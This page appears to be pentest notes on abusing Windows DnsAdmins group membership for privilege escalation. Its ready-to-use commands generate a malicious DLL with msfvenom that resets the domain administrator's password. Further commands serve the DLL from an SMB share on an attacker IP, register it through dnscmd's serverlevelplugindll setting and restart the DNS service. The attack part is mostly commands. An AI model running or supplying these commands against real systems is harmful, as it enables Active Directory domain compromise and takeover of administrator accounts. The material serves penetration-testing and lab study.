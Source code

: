```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DnsAdmins

## Information

This membership can be exploited by performing a **DLL injection**, i.e. specifying a plugin DLL that can be loaded upon (re)starting the DNS service.

## Exploitation

### Admin Password

Generate a malicious DLL and [transfer it](../../../../tools/tools/file-transfers.md) to the target.

{% hint style="danger" %}
Passing any payload this way **crashes the DNS server** as it never really starts. More information on how to bypass this issue by executing the payload as a thread [here](https://youtu.be/8KJebvmd1Fk?t=3034).
{% endhint %}

{% code overflow="wrap" %}
```bash
# generating the payload
sudo msfvenom -p windows/x64/exec cmd='net user administrator Password123! /domain' -f dll > da.dll
# starting an SMB server
$ impacket-smbserver -smb2support share ./
```
{% endcode %}

Set the DLL path from the compromised host and restart the DNS service (DnsAdmins cannot restart services by default, but it not uncommon to be given that right).

{% code overflow="wrap" %}
```powershell
# setting the Windows Registry remote DLL path
dnscmd.exe [FQDN] /config /serverlevelplugindll \\10.10.14.3\share\da.dll
```
{% endcode %}

Restart the DNS service. `DnsAdmins` members cannot restart services by default using `sc`, but they can do it with `dnscmd`.

{% tabs %}
{% tab title="dnscmd" %}
```powershell
dnscmd [FQDN] /restart
```
{% endtab %}

{% tab title="sc" %}
```powershell
# stop service
sc.exe stop dns
# start service
sc.exe start dns
```
{% endtab %}
{% endtabs %}

For an example of the above process check [here](https://x7331.gitbook.io/boxes/boxes/boxes/medium/resolute#elevation-of-privileges).

## Resources

{% tabs %}
{% tab title="Exploitation" %}
{% embed url="https://adsecurity.org/?p=4064" %}
{% endtab %}

{% tab title="DnsAdmins In-depth" %}
{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}
{% endtab %}
{% endtabs %}
